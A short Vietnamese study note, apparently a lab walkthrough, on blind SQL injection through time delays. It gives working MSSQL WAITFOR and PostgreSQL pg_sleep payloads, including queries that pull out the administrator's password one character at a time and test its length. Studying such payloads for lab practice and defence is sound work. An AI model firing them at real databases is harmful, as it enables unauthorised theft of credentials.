 => đây là ta chỉ có thể truy vấn với dòng đầu tiên, tuy nhiên ta có thể sử dụng offset để truy vấn các dòng sau

## Exploiting blind SQL injection by triggering time delays

- Sau khi truy vấn dù kết quả đúng hay sai sẽ không có kết quả trả về
- Tuy nhiên ta có thể sử dụng time delay để nhận biết kết quả trả về đúng hay sai

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

- Nếu 1=1 đúng thì sẽ delay 10s
- Nếu 1=2 sai thì sẽ không delay

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

# Blind SQL injection with time delays and information retrieval

- Kiểm tra câu điều kiện
  `x'%3bselect case when (1=1) then pg_sleep(10) else pg_sleep(0) end--`
- Kiểm tra length
  `x'%3bselect case when (username='administrator' and length(password) = 20) then pg_sleep(5) else pg_sleep(0) end from users--`
- setup cho dò password
  ![Alt text](bin/image-13.png)